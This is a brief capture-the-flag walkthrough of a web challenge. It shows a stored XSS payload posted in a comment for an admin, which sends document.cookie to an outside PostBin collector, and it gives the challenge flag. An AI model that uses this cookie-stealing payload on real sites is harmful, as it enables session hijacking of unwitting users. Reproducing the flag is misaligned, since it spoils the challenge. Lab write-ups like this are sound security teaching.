

# Government Agriculture Network - Web



## Initial Thoughts

* some sort of sqli or xss

#Walkthrough

Navigate to the website and we see the ability to upload a comment for the Admin to read

Looks like we might be able to use PostBin - https://postb.in/

Lets grab out Postbin url and slam it in the comment and attack the document.cookie to the end and hope it pops in the body when we refresh the postbin


```php
<script>
location.href ='https://postb.in/1561500185221-0402140889782?cookie='+document.cookie;
</script>
```


<details>
	<summary>Flag</summary>

CTF{8aaa2f34b392b415601804c2f5f0f24e}
</details>